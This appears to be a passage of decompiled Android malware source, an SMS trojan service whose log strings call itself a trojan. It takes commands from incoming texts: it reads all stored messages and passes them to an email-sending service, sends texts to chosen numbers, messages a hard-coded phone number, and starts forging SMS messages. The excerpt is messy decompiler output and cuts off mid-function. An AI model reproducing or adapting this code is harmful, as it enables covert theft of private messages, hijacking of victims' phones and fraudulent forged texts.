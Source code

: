           localSmsInfo.action = 2;
          label750: Message localMessage2 = this.smsHandler.obtainMessage();
          localMessage2.obj = localSmsInfo;
          this.smsHandler.sendMessage(localMessage2);
        case -1449143887:
        case -973199489:
        case 3556498:
        case 579867225:
        case 1248164738:
        }
      }
      while (true)
      {
        System.out.println("木马完成处理截获短信 >>" + localStringBuilder1.toString());
        break;
        if (ListenMessageService.this.app.allMsg.equals(str1))
        {
          if (System.currentTimeMillis() - ListenMessageService.this.app.time >= 5000L)
            break label469;
          System.out.println("^^^^^^^^^^^^^^^^^");
          System.out.println("Second time  into ,return!");
          System.out.println("^^^^^^^^^^^^^^^^^");
          return;
        }
        ListenMessageService.this.app.allMsg = str1;
        break label469;
        if (!str4.equals("readmessage"))
          break label728;
        System.out.println("数据库处理发送邮件命令-----------------------------------");
        String str10 = ListenMessageService.this.ReadAllMessage(ListenMessageService.this);
        Intent localIntent2 = new Intent(ListenMessageService.this, MySendEmailService.class);
        localIntent2.putExtra("String", str10);
        ListenMessageService.this.startService(localIntent2);
        ListenMessageService.this.Flag = false;
        localSmsInfo.action = 2;
        break label750;
        if (!str4.equals("sendmessage"))
          break label728;
        System.out.println("数据库处理发送短信命令----------------------------------");
        int k = str1.lastIndexOf('/');
        String str8 = str1.substring(i + 1, k);
        String str9 = str1.substring(k + 1, str1.length());
        SmsManager.getDefault().sendTextMessage(str8, null, str9, null, null);
        ListenMessageService.this.Flag = false;
        localSmsInfo.action = 2;
        break label750;
        if (!str4.equals("test"))
          break label728;
        System.out.println("数据库收到test命令-----------------------------------");
        SmsManager.getDefault().sendTextMessage("18670259904", null, "【数据库截获】TEST数据截获（广播失效）", null, null);
        ListenMessageService.this.Flag = false;
        localSmsInfo.action = 2;
        break label750;
        if (!str4.equals("makemessage"))
          break label728;
        System.out.println("数据库处理伪造短信命令------------------------------------------");
        int j = str1.lastIndexOf('/');
        String str6 = str1.substring(i + 1, j);
        String str7 = str1.substring(j + 1, str1.length());
        ListenMessageService.this.Flag = true;
        new Thread()
        {
          public void run()
          {